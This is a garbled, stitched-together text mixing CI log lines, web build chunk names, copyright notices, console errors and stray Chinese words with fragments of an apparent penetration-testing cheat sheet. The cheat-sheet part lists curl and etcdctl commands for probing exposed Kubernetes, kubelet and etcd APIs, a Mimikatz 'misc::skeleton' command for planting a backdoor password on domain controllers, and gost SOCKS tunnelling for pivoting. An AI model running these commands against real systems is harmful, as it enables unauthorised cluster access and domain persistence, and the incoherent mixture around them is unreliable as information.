 # MicrosoftServer
///////////////////////////////////////////// \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
/////////////////////////////////////////////\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
//////////////////////////////////////////.....\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
\\\\\\\\\\\\\\\\\\\\\\\\ALL DATA RIGHTS RESERVED. ALL COPYRIGHTS RESERVED./////////
//////////=============VECTOR THREE PROTOCOL====================
////////////////////....................................................\\\\\\\\\\\\\\\\\\
 * (c) 2019 kazuya kawaguchi
 * (c) 2023 Zaxkeroth
 Copyright 2005, 2007 Bob Ippolito. All Rights Reserved.
 Copyright The Closure Library Authors.
 SPDX-License-Identifier: MIT
>>>import os
2023-03-25T21:14:25.1705153Z ##[section]Starting: Prepare job test
2023-03-25T21:14:25.1707846Z Evaluating strategy
2023-03-25T21:14:25.1712696Z Creating job '__default'
2023-03-25T21:14:25.1715118Z Evaluating timeout
2023-03-25T21:14:25.1715190Z Evaluating cancel timeout
2023-03-25T21:14:25.1715228Z Evaluating continue on error
2023-03-25T21:14:25.1715272Z Evaluating target
2023-03-25T21:14:25.1717082Z ##[section]Finishing: Prepare job test
弃用
$vendors-node-modules_-ba0e4d5b3207.js:15
>>>[DOM] exceptions (in promise)
>>>8:30, crash
theprodigyleague.github.io. subdomain: assetproductions.net
/_next/static/chunks/pages/%5BversionId%5D/%5BproductId%5D/%5B...restPage%5D-0a388d0202310049.js119B
/_next/static/xR23a7L8uutSe_4ww_xRn/_buildManifest.js76B
/_next/static/xR23a7L8uutSe_4ww_xRn/_ssgManifest.js74B
/_next/static/chunks/polyfills-c67a75d1b6f99dc8.js73B
/_next/static/chunks/856-9ad78b8d852d1279.js67B
/_next/static/chunks/335-c28a1896766e22f6.js67B
/_next/static/chunks/377-db71c9ecf498e436.js67B
/_next/static/chunks/833-c07ccb17b9c4f763.js67B
/_next/static/chunks/584-0d3303dbd89ed456.js67B
/_next/static/chunks/200-76f833ab3eb14f10.js67B
[CODE_Z4]
>>>import m= b, tp, r:436 # bloat_code
$ls 
$cd
..
[VERIFICATION]
$forced reflow
#chrome crashing
[POST]
_.ksend
this loop # china llc
[VIOLATION]
这。无尽的。环形
Failed to construct clipboard
Blocked D  e  V  Tool Request 
[!] JWt API XPLOIT 
[!] JSON WEB token leakage
## API addresses that (You) should know 
*(External network visibility)*
### cAdvisor
```powershell
curl -k https://<IP Address>:4194
```
### Insecure API server
```powershell
curl -k https://<IP Address>:8080
```
### Secure API Server
```powershell
curl -k https://<IP Address>:(8|6)443/swaggerapi
curl -k https://<IP Address>:(8|6)443/healthz
curl -k https://<IP Address>:(8|6)443/api/v1
```
### etcd API
```powershell
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```
### Kubelet API
```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```
### kubelet (Read only)
```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```
<>
__AWS__SOCIALIST_MEDIUMS____PUPPETEERING
/prompt -para // is used 
/specify --end-user -cred -connect -remote [host]
### Skeleton Key
```powershell
# Exploitation Command runned as DA:
>Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>
# Access using the password "mimikatz"
[Enter]
$-PSSes
> Server side: gost -L=socks5://:1080
> Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true
